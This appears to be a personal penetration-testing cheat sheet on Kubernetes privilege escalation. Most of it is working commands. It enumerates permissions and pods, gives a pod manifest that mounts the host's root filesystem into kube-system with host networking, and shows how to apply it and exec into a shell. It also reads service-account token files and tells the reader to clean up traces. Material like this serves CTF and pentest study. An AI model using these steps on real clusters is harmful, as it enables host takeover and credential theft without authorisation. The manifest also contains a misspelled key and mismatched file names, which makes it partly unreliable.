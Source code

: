 
For [[Kubernetes]] information follow the link

No `microk8s` no problem get official `kubectl` binary here: [Official Kubernetes download kubectl binaries](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/); official `curl` commandage..
```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
```


Enumerate permissions
```bash
microk8s kubectl auth can-i --list
# If you see:
Resources   Non-Resource URLs   Resource Names   Verbs
*.*         []                  []               [*]
# You can do anything
```

Enumerate pods and namespaces, image name
```bash
microk8s kubectl get namespace
microk8s kubectl get pods
microk8s kubectl get pod $pod -o yaml # get the image: $field of current pod
```

####  Make a pod and mount away!

Create a YAML file to create a pod to run as root - named kubeRevShell.yaml - [prettifer](https://onlineyamltools.com/prettify-yaml) 
```YAML
apiVersion: v1
kind: Pod
metadata:
  name: some-pod
  namespace: kube-system
spec:
  containers:
    - name: shell
      image: # GET THE IMAGE NAME OF CURRENT POD
      command: ['/bin/sh']
      args: ['-c', 'sleep 300000']
      volumeMounts:
        - mountPath: /mnt
          name: hostfs
  volumes:
    - name: hostfs
      hostPath:
        path: /
  autommountServiceAccountToken: true
  hostNetwork: true
```
Beware:
`name:` must be a lowercase RFC 1123 label.

Apply this configuration
```bash
microk8s kubectl apply -f kubeRevShell.yaml
```

Check the status of the pod
```bash
microk8s kubectl get pods -n kube-system # display kube-system namespace
```

Exec a very minimal shell, works as nested `nc` no tty... 
```bash
./kubectl exec some-pod -n kube-system --stdin --tty -- /bin/bash
```

Clean up yourself 
```bash
./kubectl delete -f kubeShell.yaml
```

#### Kubernetes Token Abuse

`cat /var/run/secrets/kubernetes.io/$account/token`

Pod breakout

Privilege Escape

Cloud Hacking

## References

[Online YAML prettifier](https://onlineyamltools.com/prettify-yaml)
[Official Kubernetes download kubectl binaries](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/);